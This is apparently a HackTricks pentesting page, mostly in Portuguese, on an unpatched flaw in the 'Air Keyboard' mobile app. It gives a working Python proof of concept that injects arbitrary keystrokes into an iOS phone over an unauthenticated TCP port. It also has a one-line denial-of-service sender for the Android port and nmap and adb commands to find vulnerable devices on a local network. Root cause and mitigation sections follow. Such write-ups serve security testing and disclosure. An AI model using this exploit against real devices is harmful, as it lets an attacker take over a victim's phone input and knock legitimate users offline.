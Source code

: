 # Air Keyboard Remote Input Injection (Unauthenticated TCP Listener)

{{#include ../../banners/hacktricks-training.md}}

## TL;DR

A versão iOS do aplicativo comercial "Air Keyboard" (ID da App Store 6463187929) abre um **serviço TCP em texto claro na porta 8888** que aceita quadros de teclas **sem qualquer autenticação**. Qualquer dispositivo na mesma rede Wi-Fi pode se conectar a essa porta e injetar entrada de teclado arbitrária no telefone da vítima, alcançando **sequestro total de interação remota**.

Uma versão Android acompanhante escuta na **porta 55535**. Ela realiza um handshake fraco AES-ECB, mas lixo elaborado causa uma **exceção não tratada na rotina de descriptografia do OpenSSL**, fazendo o serviço em segundo plano falhar (**DoS**).

## 1. Service Discovery

Escaneie a rede local e procure as duas portas fixas usadas pelos aplicativos:
```bash
# iOS (input-injection)
nmap -p 8888 --open 192.168.1.0/24

# Android (weakly-authenticated service)
nmap -p 55535 --open 192.168.1.0/24
```
Nos dispositivos Android, você pode identificar o pacote responsável localmente:
```bash
adb shell netstat -tulpn | grep 55535     # no root required on emulator

# rooted device / Termux
netstat -tulpn | grep LISTEN
ls -l /proc/<PID>/cmdline                # map PID → package name
```
## 2. Formato de Quadro (iOS)

O binário revela a seguinte lógica de análise dentro da rotina `handleInputFrame()`:
```
[length (2 bytes little-endian)]
[device_id (1 byte)]
[payload ASCII keystrokes]
```
O comprimento declarado inclui o byte `device_id` **mas não** o cabeçalho de dois bytes.

## 3. Exploração PoC
```python
#!/usr/bin/env python3
"""Inject arbitrary keystrokes into Air Keyboard for iOS"""
import socket, sys

target_ip = sys.argv[1]                  # e.g. 192.168.1.50
keystrokes = b"open -a Calculator\n"     # payload visible to the user

frame  = bytes([(len(keystrokes)+1) & 0xff, (len(keystrokes)+1) >> 8])
frame += b"\x01"                         # device_id = 1 (hard-coded)
frame += keystrokes

with socket.create_connection((target_ip, 8888)) as s:
s.sendall(frame)
print("Injected", keystrokes)
```
Qualquer ASCII imprimível (incluindo `\n`, `\r`, teclas especiais, etc.) pode ser enviado, efetivamente concedendo ao atacante o mesmo poder que a entrada física do usuário: lançar aplicativos, enviar mensagens instantâneas, visitar URLs de phishing, etc.

## 4. Android Companion – Negação de Serviço

A porta Android (55535) espera uma senha de 4 caracteres criptografada com uma **chave AES-128-ECB codificada** seguida por um nonce aleatório. Erros de análise sobem para `AES_decrypt()` e não são capturados, encerrando a thread do listener. Um único pacote malformado é, portanto, suficiente para manter usuários legítimos desconectados até que o processo seja relançado.
```python
import socket
socket.create_connection((victim, 55535)).send(b"A"*32)  # minimal DoS
```
## 5. Causa Raiz

1. **Sem verificações de origem / integridade** em quadros recebidos (iOS).
2. **Uso indevido de criptografia** (chave estática, ECB, validação de comprimento ausente) e **falta de tratamento de exceções** (Android).

## 6. Mitigações & Ideias de Fortalecimento

* Nunca exponha serviços não autenticados em um dispositivo móvel.
* Derive segredos por dispositivo durante o onboarding e verifique-os antes de processar a entrada.
* Vincule o listener a `127.0.0.1` e use um transporte autenticado mutuamente, criptografado (por exemplo, TLS, Noise) para controle remoto.
* Detecte portas abertas inesperadas durante revisões de segurança móvel (`netstat`, `lsof`, `frida-trace` em `socket()` etc.).
* Como usuário final: desinstale o Air Keyboard ou use-o apenas em redes Wi-Fi confiáveis e isoladas.

## Detecção Cheat-Sheet (Pentesters)
```bash
# Quick one-liner to locate vulnerable devices in a /24
nmap -n -p 8888,55535 --open 192.168.1.0/24 -oG - | awk '/Ports/{print $2,$3,$4}'

# Inspect running sockets on a connected Android target
adb shell "for p in $(lsof -PiTCP -sTCP:LISTEN -n -t); do echo -n \"$p → "; cat /proc/$p/cmdline; done"
```
## Referências

- [Vulnerabilidade de Injeção de Entrada Remota no App Air Keyboard iOS Ainda Não Corrigida](https://www.mobile-hacker.com/2025/07/17/remote-input-injection-vulnerability-in-air-keyboard-ios-app-still-unpatched/)
- [Aviso CXSecurity WLB-2025060015](https://cxsecurity.com/issue/WLB-2025060015)

{{#include ../../banners/hacktricks-training.md}}
